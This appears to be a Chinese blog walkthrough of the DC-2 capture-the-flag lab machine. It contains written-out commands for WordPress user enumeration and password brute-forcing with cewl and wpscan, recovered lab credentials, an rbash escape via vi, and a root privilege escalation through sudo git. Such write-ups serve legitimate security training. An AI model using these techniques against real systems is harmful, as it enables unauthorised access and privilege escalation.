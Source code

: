 ```yaml
---
layout: post
title: DC-2
subtitle: DC-2
date: 2025-07-08 09:27
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - DC系列
published: true
number headings: first-level 2, max 4, 1.1., auto
---
```

主机发现

![Pasted%20image%2020250708092821.png300](https://img.ghostliner.top/JuHdN2.png)

发现`192.168.163.131`，端口扫描
![Pasted%20image%2020250708092929.png300](https://img.ghostliner.top/siB1ce.png)

访问80端口，被重定向到 <http://DC-2> ，修改hosts即可访问

目录扫描，发现wp-admin后台登陆路径

访问站点，获取到flag1，按提示使用cewl
![Pasted%20image%2020250708093111.png300](https://img.ghostliner.top/8nOtgC.png)

```shell
cewl http://dc-2/wp-login.php -w pass.txt
wpscan --url http://dc-2/ -e u
# admin jerry tom
echo -e "admin\njerry\ntom" > user.txt
wpscan --url http://DC-2 -e -U user.txt -P pass.txt
# Username: jerry, Password: adipiscing
# Username: tom, Password: parturient
```

![Pasted%20image%2020250708100011.png300](https://img.ghostliner.top/6uYNfN.png)

![Pasted%20image%2020250708095958.png300](https://img.ghostliner.top/1iq7uw.png)

```shell
ssh tom@DC-2 -p 7744
compgen -c
vi flag3.txt
```

获取flag3

![Pasted%20image%2020250708100605.png300](https://img.ghostliner.top/fAT1Xa.png)

rbash提权

```shell
vi flag3.php
:set shell=/bin/sh
:shell
```

进入sh

```shell
export PATH=$PATH:/bin
su jerry
# 输入密码
```

获取flag4

![image.png300](https://img.ghostliner.top/g9FLWN.png)

```shell
sudo -l
# 显示：(root) NOPASSWD: /usr/bin/git
sudo git help config
!/bin/bash
```

提权到root用户，获取flag5

![image.png300](https://img.ghostliner.top/7JcS8d.png)
